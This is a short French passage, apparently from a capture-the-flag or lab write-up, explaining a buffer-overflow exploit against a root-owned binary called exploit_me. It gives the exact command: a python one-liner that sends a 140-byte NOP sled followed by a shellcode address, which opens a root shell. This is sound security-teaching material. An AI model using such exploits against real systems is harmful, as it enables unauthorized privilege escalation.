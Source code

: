 > Le fichier est aussi disponible dans `scripts/ressources/buffer_overflow.c`.

Nous pouvons exécuter la ligne suivante qui va démarrer le fichier `exploit_me` où `SHELLCODE` est l'adresse de la variable d'environnement `$SHELLCODE` en inversant l'endian (par exemple `0xbffff8f8` devient `\xf8\xf8\xff\xbf`).

```bash
./exploit_me `python -c 'print "\x90" * 140 + "SHELLCODE"'`
```

Nous écrivons donc `\x90` sur 140 octets (qui correspond à un `NOP`, cela passe à l'octet suivant) puis nous passons au `shellcode`.

> Le programme va lire le shellcode et ouvrir un nouveau shell en root car l'user qui a crée `./exploit_me` est `root`.

__Bravo ! Vous êtes root !__
